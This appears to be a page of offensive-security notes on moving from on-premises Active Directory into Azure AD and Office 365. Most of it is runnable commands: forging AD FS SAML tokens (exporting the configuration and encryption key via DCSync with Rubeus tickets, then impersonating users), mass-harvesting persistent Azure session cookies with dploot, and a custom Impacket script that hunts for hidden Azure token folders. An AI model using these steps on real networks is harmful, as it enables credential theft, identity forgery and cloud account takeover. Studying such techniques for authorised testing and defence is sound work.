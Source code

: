 # On-Prem → Cloud

- [https://aadinternals.com/post/on-prem_admin/](https://aadinternals.com/post/on-prem_admin/)
- [https://dirkjanm.io/azure-ad-privilege-escalation-application-admin/](https://dirkjanm.io/azure-ad-privilege-escalation-application-admin/)
- [https://nullg0re.com/2024/05/cracking-zero-trust-on-prem-to-azure-pivots-with-responder-and-evilginx2/](https://nullg0re.com/2024/05/cracking-zero-trust-on-prem-to-azure-pivots-with-responder-and-evilginx2/)




## Dumping AAD Connect Creds

- [https://dirkjanm.io/updating-adconnectdump-a-journey-into-dpapi/](https://dirkjanm.io/updating-adconnectdump-a-journey-into-dpapi/)
- [https://aadinternals.com/post/adsync/](https://aadinternals.com/post/adsync/)
- [https://imphash.medium.com/shooting-up-on-prem-to-cloud-detecting-aadconnect-creds-dump-422b21128729](https://imphash.medium.com/shooting-up-on-prem-to-cloud-detecting-aadconnect-creds-dump-422b21128729)
- [https://rioasmara.com/2020/07/07/azure-ad-connect-post-exploitation-for-dcsync/](https://rioasmara.com/2020/07/07/azure-ad-connect-post-exploitation-for-dcsync/)
- [[PDF] Hacking Azure AD via Active Directory (Dirk-jan Mollema, @_dirkjan)](https://dirkjanm.io/assets/raw/TR19-Im%20in%20your%20cloud.pdf)



### Tools

- [https://github.com/dirkjanm/adconnectdump](https://github.com/dirkjanm/adconnectdump)
- [https://github.com/Hagrid29/DumpAADSyncCreds](https://github.com/Hagrid29/DumpAADSyncCreds)




## Forging AD FS SAML Tokens

- [https://aadinternals.com/post/adfs/](https://aadinternals.com/post/adfs/)

Get AD FS config:

```
AADInt > $ADFSConfig = Export-AADIntADFSConfiguration -Hash <ADFS_SVC_NT_HASH> -SID <ADFS_SVC_SID> -Server ADFS01.megacorp.local
```

Get private key object GUID:

```
PV3 > Get-DomainObject -LDAPFilter "(&(objectclass=contact)(!name=CryptoPolicy)(ThumbnailPhoto=*))" -SearchBase "CN=ADFS,CN=Microsoft,CN=Program Data,DC=megacorp,DC=local" | select objectGuid
```

Ensure you have enough privileges to DCSync:

```
Cmd > Rubeus.exe asktgt /user:DC01$ /domain:megacorp.local /dc:DC01.megacorp.local /aes256:<AES_KEY> /opsec /nowrap /ptt
Cmd > Rubeus.exe asktgs /ticket:<TICKET> /domain:megacorp.local /dc:DC01.megacorp.local /service:LDAP/DC01.megacorp.local /nowrap /ptt
```

DCSync the key:

{% hint style="info" %}
We don't actually need clear-text creds to replicate the key if we've already imported a privileged TGT, so `$Credentials` ([here](https://github.com/Gerenios/AADInternals/blob/49a9659b60672f08428e72148b66dfe4629562da/DRS_Utils.ps1#L242)) can be omitted.
{% endhint %}

```
AADInt > $ADFSKey = Export-AADIntADFSEncryptionKey -Server DC01.megacorp.local -ObjectGuid <GUID> -Credentials "dummy"
PS > [System.BitConverter]::ToString($ADFSKey)
```

Generate the token signing certificate:

```
AADInt > Export-AADIntADFSCertificates -Configuration $ADFSConfig -Key $ADFSKey
PS > ls ADFS_*
```

Get AD FS trust issuer as well as on-prem users' immutable cloud IDs:

```
ADFS > $Issuer = (Get-ADFSProperties).Identifier.OriginalString
PV3 > Get-DomainUser | select UserPrincipalname, @{Name="ImmutableId"; Expression={"$([Convert]::ToBase64String(([guid]$_.ObjectGuid).ToByteArray()))"}}
```

Impersonate and login:

```
AADInt > Open-AADIntOffice365Portal -ImmutableId <BASE64_ID> -PfxFileName .\ADFS_signing.pfx -Issuer $Issuer
```




## Mass Cookies Harvesting

Collect with [dploot](https://github.com/zblurx/dploot):

```
$ ls tickets/
SRV01.ccache   SRV02.ccache   PC01.ccache
$ for st in `ls tickets/`; do comp=`basename $st .ccache`; KRB5CCNAME="tickets/$st" proxychains4 dploot browser -d megacorp.local -no-pass -use-kcache "$comp.megacorp.local" -pvk ../key.pvk -show-cookies > "browsers_$comp.out"; done
```

Search for `ESTSAUTHPERSISTENT` cookies:

```
$ grep -nr --include '*.out' ESTSAUTHPERSISTENT -A3 | grep -e Creation -e Expires
```



### Mass Hidden Directories Searching

Impacket's **smbclient.py** extension (searches for hidden directories in every user's home):

```python
def do_hidden(self, args=None):
    hidden = []
    for item1 in self.smb.listPath(self.share, '\\Users\\*'):
        longname1 = item1.get_longname()
        if item1.is_directory() and longname1 not in ('.', '..'):
            dir0 = ntpath.join('\\Users', longname1)
            try:
                ls = self.smb.listPath(self.share, ntpath.join(dir0, '*'))
            except:
                continue
            else:
                for item2 in ls:
                    longname2 = item2.get_longname()
                    if item2.is_directory() and longname2 not in ('.', '..') and longname2.startswith('.'):
                        hidden.append((item2, ntpath.join(dir0, longname2)))
    result = ''
    for item, name in hidden:
        result += 'drw-rw-rw- '
        result += f'{datetime.fromtimestamp(item.get_mtime_epoch()).strftime("%Y/%m/%d %H:%M:%S"):>21} '
        result += '  '
        result += name
        result += '\n'
    print(result.strip())
```

Collect hidden directories:

```
$ ls tickets/
SRV01.ccache   SRV02.ccache   PC01.ccache
$ echo 'use c$\nhidden' > cmd
$ for st in `ls tickets/`; do comp=`basename $st .ccache`; KRB5CCNAME="tickets/$st" proxychains4 smbclient.py -k -no-pass "$comp.megacorp.local" -inputfile cmd -outputfile "hidden_$comp.out"; done
```

Search for hidden directories that start with `.az`:

```
$ grep -nr --include '*.out' '\Users' | grep -i '\.Az'
```
